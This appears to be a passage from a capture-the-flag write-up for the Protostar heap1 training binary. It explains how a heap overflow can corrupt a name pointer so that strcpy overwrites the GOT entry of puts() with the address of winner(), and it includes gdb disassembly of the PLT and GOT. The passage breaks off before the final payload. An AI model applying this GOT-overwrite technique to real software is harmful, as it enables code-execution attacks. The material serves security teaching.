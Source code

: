 At this point, you might think how can we overwrite **the GOT entry**?

The answer is simple. We need a ***pointer*** that we can manipulate to change data. If we look closely, the program uses `i1->name` and `i2->name`. Since `name` is a pointer, **strcpy()** must dereference it before writing data. This gives us a way to control **what and where gets written**.

The plan is to provide two arguments:

1. The first argument must be large enough to overflow the address stored in `i2->name`.
2. The second argument will be the address of the **winner()** function.

When the second **strcpy()** runs, it will use the modified `i2->name` pointer to overwrite the ***GOT entry of puts()*** with the address of **winner()**.

### Solution

As usual, I will debug the program with `gdb`, set the syntax to Intel and turn off the pagination. We first disassemble **main**.

```shell
user@protostar:/opt/protostar/bin$ gdb ./heap1
(gdb) set disassembly-flavor intel
(gdb) set pagination off
(gdb) disassemble main
...
0x08048561 <main+168>:  call   0x80483cc <puts@plt>
0x08048566 <main+173>:  leave
0x08048567 <main+174>:  ret
End of assembler dump.
```

The printf has become a puts. `plt` stands for **Procedure Linkage Table (PLT)**, which helps dynamic loading and linking easier to use. `@plt` suffix indicates we are calling **puts()** at its PLT entry located at `0x80483cc`. Let's disassemble this address:

```shell
(gdb) disassemble 0x80483cc
Dump of assembler code for function puts@plt:
0x080483cc <puts@plt+0>:        jmp    DWORD PTR ds:0x8049774
0x080483d2 <puts@plt+6>:        push   0x30
0x080483d7 <puts@plt+11>:       jmp    0x804835c
End of assembler dump.
```

This function calls another address: `0x8049774`. This is part of the **Global Offset Table (GOT)**, which points to the dynamically linked library that contains the actual **puts()** function.

```shell
(gdb) x 0x8049774
0x8049774 <_GLOBAL_OFFSET_TABLE_+36>:   0x080483d2
```

Our goal is to replace the call to **puts()** with a call to **winner()**. To do this, we need to overwrite the content at `0x8049774` in the **GOT**, currently holding `0x080483d2`, with the address of **winner()**.

Let's find the address of **winner()** using `objdump`.
